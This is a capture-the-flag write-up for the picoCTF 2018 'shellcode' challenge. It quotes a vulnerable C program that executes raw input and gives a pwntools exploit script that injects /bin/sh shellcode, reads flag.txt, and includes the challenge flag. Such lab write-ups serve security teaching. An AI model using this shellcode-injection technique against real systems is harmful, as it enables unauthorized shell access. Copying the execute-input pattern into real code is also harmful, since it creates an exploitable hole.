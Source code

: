# Problem
This [program](https://2018shell1.picoctf.com/static/77b3483ed4e56701fa7db9c5bdea4d03/vuln) executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a on the shell server. [Source](https://2018shell1.picoctf.com/static/77b3483ed4e56701fa7db9c5bdea4d03/vuln.c).

## Hints:
Maybe try writing some shellcode?

You also might be able to find some good shellcode online.

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/77b3483ed4e56701fa7db9c5bdea4d03/vuln
wget https://2018shell1.picoctf.com/static/77b3483ed4e56701fa7db9c5bdea4d03/vuln.c
```

First, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
     
  return 0;
}
```

The function ```vuln()``` just reads the buffer from the input, and after that, ```main()``` will execute the buffer.

All we need to do is the send a [shellcode](https://en.wikipedia.org/wiki/Shellcode) to the program.

We can get a shellcode from [shell-storm](http://shell-storm.org/shellcode/), or use those from [pwntools](https://github.com/Gallopsled/pwntools)

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/shellcode_1_cec2eb801137d645a9f15b9b6af5347a/')
  p = s.process('./vuln')

print p.recv()
log.info('Sending shellcode: {}'.format(asm(shellcraft.i386.linux.sh())))
p.sendline(asm(shellcraft.i386.linux.sh()))

if debug:
  p.interactive()
else:
  p.sendline('ls')
  p.sendline('cat flag.txt')
  p.sendline('exit')

  print p.recvall()
```

Flag: picoCTF{shellc0de_w00h00_26e91a77}